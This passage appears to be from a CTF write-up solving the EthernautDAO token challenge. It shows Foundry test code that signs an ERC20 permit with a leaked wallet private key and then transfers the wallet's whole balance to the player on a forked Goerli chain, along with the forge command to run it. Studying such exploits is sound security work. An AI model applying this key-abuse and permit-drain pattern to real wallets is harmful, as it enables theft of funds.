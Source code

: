 ```solidity
    bytes32 erc20PermitHash = ECDSA.toTypedDataHash(ethernautDaoToken.DOMAIN_SEPARATOR(), erc20PermitStructHash);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(WALLET_PRIVATE_KEY, erc20PermitHash);

    // call the `permit` function not as the owner of the funds but as the player
    ethernautDaoToken.permit(walletAddress, player, walletBalance, deadline, v, r, s);

    vm.startPrank(player);
    // transfer tokens from the the real owner to the player account
    ethernautDaoToken.transferFrom(walletAddress, player, walletBalance);
    vm.stopPrank();
}
```

## Solution code

Now what we have to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork to execute the test

Here's the code that I used for the test:

```solidity
function testTransferEDTToken() public {
    address player = users[0];

    address walletAddress = vm.addr(WALLET_PRIVATE_KEY);
    console.log(walletAddress);
    uint256 walletBalanceBefore = ethernautDaoToken.balanceOf(walletAddress);

    // Solution 1: access directly as the final user
    solutionOne(walletAddress, player, walletBalanceBefore / 2);

    // Solution 2: Use the Permit functions to allow the player to transfer the tokens on behalf of the user
    solutionTwo(walletAddress, player, ethernautDaoToken.balanceOf(walletAddress));

    // Assert that the player now owns all the balanced owned by the wallet before the exploit
    // And that the wallet has 0 tokens in its balance
    assertEq(ethernautDaoToken.balanceOf(player), walletBalanceBefore);
    assertEq(ethernautDaoToken.balanceOf(walletAddress), 0);
}
```

Here is the command I have used to run the test: `forge test --match-contract EthernautDaoTokenTest --fork-url <your_rpc_url> --fork-block-number 7318911 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchemy or Infura.

You can read the full solution of the challenge, opening [EthernautDaoToken.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/EthernautDaoToken.t.sol)
